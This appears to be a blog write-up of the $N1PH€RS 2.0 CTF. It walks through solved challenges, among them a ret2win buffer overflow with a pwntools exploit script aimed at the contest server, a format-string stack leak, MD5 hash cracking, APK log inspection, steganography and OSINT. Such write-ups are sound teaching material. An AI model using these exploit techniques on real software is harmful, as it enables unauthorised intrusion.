+++
date = '2025-08-18T15:18:59+05:30'
draft = false
title = '$N1PH€RS 2.0 CTF'
+++

# $N1PH€RS 2.0 CTF Writeup

## Challenge 2 - Binary Exploitation



We have a win function in the binary, however it's never called. Let's look at the security of the binary:

```bash
quixel@pop-os:~/Desktop/sniphers$ checksec --file chall2
[*] '/home/quixel/Desktop/sniphers/chall2'
Arch:       amd64-64-little
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        No PIE (0x400000)
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

We can see that it does not contain any stack canary, nor does it have PIE which means the address of functions and variables are always the same. Let's try a buffer overflow.

```bash
quixel@pop-os:~/Desktop/sniphers$ ./chall2 
Deep within the depths of binary land, a careless developer has left behind a function that grants instant victory. However, there's a catch – it's never called!
There's no easy way in, and you'll need to craft the perfect input
Enter your input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
Segmentation fault (core dumped)
```

We get a segmentation fault which means the program crashed. So it is vulnerable to overflow, a more elegant way to verify would have been to use Ghidra but hey it works. Let's look at the binary more closely with gdb:

```bash
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x00000000004010b0  _start
0x00000000004010e0  _dl_relocate_static_pie
0x00000000004010f0  deregister_tm_clones
0x0000000000401120  register_tm_clones
0x0000000000401160  __do_global_dtors_aux
0x0000000000401190  frame_dummy
0x0000000000401196  win
0x00000000004011b0  main
0x0000000000401230  _fini
pwndbg> disass win
Dump of assembler code for function win:
0x0000000000401196 <+0>:	endbr64 
0x000000000040119a <+4>:	push   rbp
0x000000000040119b <+5>:	mov    rbp,rsp
0x000000000040119e <+8>:	lea    rax,[rip+0xe63]        # 0x402008
0x00000000004011a5 <+15>:	mov    rdi,rax
0x00000000004011a8 <+18>:	call   0x401080
0x00000000004011ad <+23>:	nop
0x00000000004011ae <+24>:	pop    rbp
0x00000000004011af <+25>:	ret    
End of assembler dump.
```

We can see that the win is located at `0x0000000000401196`, and since PIE is disabled, we can be certain that win is always present at that address. Now we need to find the offset needed to correctly place this address at RIP so that the program jumps to the win function.

You can use cyclic to find it, I found that it's at 88. So our payload is 88 characters + address of win.

However this is a 64 bit binary and it checks for stack alignment, one way to overcome this is to use a ret instruction to align it, or we can jump one or two instructions right after the function starts. I went with the second approach, here's my pwntools script:

```python
from pwn import *

elf = ELF("chall2")

#p = elf.process()
p = remote("209.38.121.6",5007)

payload = b'a'*88+p64(0x000000000040119b)
print(p.recvuntil(b"Enter your input: "))

p.sendline(payload)
p.interactive()
```

## Love - Android APK Analysis

### Do you love flames



We are given an APK file. Generally APK files are mostly compiled in Java which makes them easy to reverse, I'll be using the [MobSF framework](https://github.com/MobSF/Mobile-Security-Framework-MobSF) to analyze the APK. We can run it in a Docker container. I'll also be using Genymotion to run an Android emulator.

```bash
sudo docker run -it --rm -p 8000:8000 -p 1337:1337  \
-e MOBSF_ANALYZER_IDENTIFIER=127.0.0.1:6555 \
opensecurity/mobile-security-framework-mobsf:latest
```

The `-e` sets the environment so that MobSF can connect to our Android device for dynamic analysis.

To load the APK in our emulator we can use adb:

```bash
quixel@pop-os:~$ adb install ~/Downloads/love.apk
```

Here's the main file we are interested in:

```java
package com.tamilctf.love;

import android.os.Bundle;
import android.util.Log;
import android.view.View;
import android.widget.Button;
import android.widget.EditText;
import android.widget.TextView;
// ... (imports omitted for brevity)

public class MainActivity extends AppCompatActivity {
    Button magic;
    EditText partnerName;
    TextView result;
    EditText yourName;

    public native String FlagfromJNI();

    static {
        System.loadLibrary("love");
    }

    // ... (onCreate method and other code)

    public String doFlame(char[] charYname, char[] charPname) {
        // ... (flame algorithm implementation)
        
        char result = flames[0];
        switch (result) {
            case 'a':
                Log.i("affectionate", "Just a Infatuation bruhhhh");
                return q + " has more AFFECTION on " + w;
            case 101: // 'e'
                Log.i("Enemy", "You are enemy bruhh");
                return q + " is ENEMY to " + w;
            case 102: // 'f'
                Log.i("Friends", "You are friends bruhh");
                return q + " is FRIEND to " + w;
            case 108: // 'l'
                Log.i("Love", "You are couple's bruhh");
                return q + " is in LOVE with " + w;
            case 109: // 'm'
                Log.i("Flag :", FlagfromJNI());
                return q + " is going to MARRY " + w;
            default:
                Log.i("No words", "crying only coming");
                return q + " and " + w + " are SISTERS/BROTHERS ";
        }
    }
}
```

Here's the interesting part I noticed:

```java
case 109: // 'm'
    Log.i("Flag :", FlagfromJNI());
    return q + " is going to MARRY " + w;
```

So if we get "is going to MARRY" then the flag is logged to the console with a call to `FlagfromJNI()`.

We both tested with random inputs to see if we got the message and eventually "TEST" and "sfsf" worked.

To view the logs, we can use the `adb logcat` command, which gives us the flag.



## Mission Impossible - Network Analysis



We are given a .pcapng file which is a network capture. We can view the file with Wireshark.

I noticed that there is only one TCP stream, so let's see what's in there.



Here's the entire conversation that was recorded:

```
Hi Charlie

Confirm ID?

From Alpha-Base-85 m0n1x90

ID Confirmed

Bravo! I think we are compromised...

Understood, lets break into streams

Got it!

Whats the status?

Hackers infiltrated. But we got the package!

Great Charlie!
Sarge says TangoDownTangoDown@123 to Captain

Gotcha!!

[an image is sent here]

Got your package to Alpha-Base-85

Okay Charlie

Will send our package later after verifying it..

Hmmm...Seems doubtful

Trust your comrades

Sure... Here is your cryptic info : 8T&W+Ec*[T?SQV/6nih&?V+U&78QE=<$;

Haah..Thanks

Soldiers don't say thanks
Base got Mayday.. Everything went south

Captain is waiting for the package. Send it soon

[repeats the conversation again]
```

We can extract the image from the stream and try steghide with the "cryptic info" as the password:

```bash
steghide extract -sf image.jpg
```

Then we have a password protected zip file. In the message I see a very suspicious password-like string "TangoDownTangoDown@123", which turns out to be the password, and we get the flag.

## Crack the Heart - .NET Reverse Engineering



The important detail to note is that this is a .NET executable. We can verify this through the json config file, or in Ghidra the function name in the dll is `_CorExeMain()` which is a dead giveaway.

The thing about .NET binaries is that they are compiled to a common codebase, similar to Java bytecode which means that reversing the binary is very easy and the decompiled output is very similar to the source code. For this we will use DnSpy or IlSpy.



We can see a `verifyPassword()` function that seems to check the password and give us the flag if it's right. Here's the code for `verifyPassword()`:

```csharp
private static bool VerifyPassword(string password)
{
    bool result;
    using (MD5 md = MD5.Create())
    {
        byte[] bytes = Encoding.UTF8.GetBytes(password);
        byte[] value = md.ComputeHash(bytes);
        string a = BitConverter.ToString(value).Replace("-", "").ToLower();
        result = (a == Program.storedHash);
    }
    return result;
}
```

The code basically checks if the MD5 hash of your input matches the hardcoded one which is `f25a2fc72690b780b2a14e140ef6a9e0`.

Google the hash and you can crack it, it says "iloveyou", entering that gives us the flag:

```
C:\Users\blaze\Downloads>"Hash the Heart.exe"
? iloveyou
TCTFxSTJ{C_H@sH_R3ver51ng_15_Fun} .... <3
```

## Stack Master - Format String Vulnerability

This binary contains a format string vulnerability where user input is passed directly to `printf()` without proper formatting. This allows for us, the user, to print data from the stack, which is where the flag is stored. You can verify the vulnerability by passing something like %s, %d etc, or look at the decompiled output in Ghidra:

```
Sometimes, a program just trusts whatever you say :), repeating your words without question. 
But what if words could do more than just appear on the screen?
%p %p %p %p %p %p %p %p %p %p %p
0x7ffcba91b720 0x3f 0x732c43f147e2 0x9d 0x732c441e0040 0x6b61667b454b4146 0x7d67616c665f65 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025
```

This contains the fake flag, decode it from hex and swap endianness to get the flag.

## Baby - Crackme Challenge



This is a classic crackme challenge where we are given a binary. We can decompile it using Ghidra. The program logic is pretty simple as it checks each character of your input using an if condition, rearranging the variables properly gives us the flag.



## Rettiwt - OSINT Challenge



The id turned out to be a Twitter id, which we can access using [twitter.com/i/user/1778675777287901184](https://twitter.com/i/user/1778675777287901184) which takes us to user's profile by the name of @thomasmorte.

One of their tweets is:
```
Base is the Boss
👋🐺👋🐽👯👊👋👁👲👮🐪👣👚👦👤👜👖👫🐧👖👫👟🐪👖👜👤👦👡👠👖👞🐫👤👜👴
```

We can then decode using base100 to get the flag using https://www.dcode.fr/base100-emoji-encoding

## EYE SITE - GitHub Investigation



We are given a URL: thomas-morte.github.io. As you can probably tell it's hosted on GitHub, a quick search on GitHub takes us to the repo and then we can check the commits to get the flag.



These were the challenges that we were able to solve during the CTF! Thank you for reading.
